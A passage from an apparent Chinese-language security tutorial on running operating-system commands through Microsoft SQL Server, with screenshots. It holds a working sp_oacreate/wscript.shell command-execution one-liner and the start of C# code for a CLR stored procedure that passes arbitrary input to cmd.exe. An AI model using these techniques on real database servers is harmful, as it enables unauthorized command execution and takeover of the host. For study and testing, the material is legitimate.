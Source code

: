 那么接下来就可以利用这个组件进行命令执行了，这个没有 xp\_cmdshell 好用的地方就是不能回显，可以将执行命令的结果进行重定向，然后再进行查看，比如命令：

```php
1. declare @shell **int** exec sp\_oacreate 'wscript.shell',@shell output exec sp\_oamethod @shell,'run',null,'c:\\windows\\system32\\cmd.exe /c whoami >c:\\\\test.txt'  
```

执行成功后，不会有内容返回，如图：

![7.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-862658ab598031a7dd17d482d1894e1fa33fd1db.png)

接下来去看看 c 盘下的 test.txt 内容：

![8.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-d8a5efa75c2fae5d0329045dca976e9b3f6b07a3.png)

可以看到命令已经执行成功，并且创建了文件，当前系统管理员是系统权限。

### 2.4.3 场景三：利用 CLR 执行系统命令

这种方法比较麻烦，需要自行根据目标创建项目代码，然后进行编译，相关描述如下：

1. CLR 微软官方把他称为公共语言运行时，从 SQL Server 2005 (9.x) 开始，SQL Server 集成了用于 Microsoft Windows 的 .NET Framework 的公共语言运行时 (CLR) 组件。 这意味着现在可以使用任何 .NET Framework 语言（包括 Microsoft Visual Basic .NET 和 Microsoft Visual C#）来编写存储过程、触发器、用户定义类型、用户定义函数、用户定义聚合和流式表值函数。

利用之前首先使用 VS 创建一个 MSSQL 的项目，我使用的是 VS 2015，如图：

![10.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-9fa5261561e937922522da20dc5af880c2a66c4c.png)

针对不同的目标数据库版本需要进行配置，右键项目，点击属性，然后选择对应数据库版本，如图：

![11.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-613d20ea5fddd8c820b8373906830be08415d48f.png)

我的测试目标是 mssql 2005，所以选择 SQL server 2005，最好各个版本都创建一份，以后直接使用即可。然后右键项目，添加新建项，然后选择 SQL CLR C# 存储过程，如图：

![12.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-13c956d96f05c92c805227d7693fe718aa4e4671.png)

将下面的代码复制进去：

```php
1.  **using** System;  
2.  **using** System.Data;  
3.  **using** System.Data.SqlClient;  
4.  **using** System.Data.SqlTypes;  
5.  **using** System.Diagnostics;  
6.  **using** System.Text;  
7.  **using** Microsoft.SqlServer.Server;  
8.    
9.  **public** partial **class** StoredProcedures  
10. {  
11.     \[Microsoft.SqlServer.Server.SqlProcedure\]  
12.     **public** **static** **void** ExecCommand (string cmd)  
13.     {  
14.         // 在此处放置代码  
15.        SqlContext.Pipe.Send("Command is running, please wait.");  

16.        SqlContext.Pipe.Send(RunCommand("cmd.exe", " /c " + cmd));  

17.     }  
18.     **public** **static** string RunCommand(string filename,string arguments)  
19.     {  
20.         var process = **new** Process();  
21.   
22.         process.StartInfo.FileName = filename;  
23.         **if** (!string.IsNullOrEmpty(arguments))  
24.         {  
25.             process.StartInfo.Arguments = arguments;  
26.         }  
```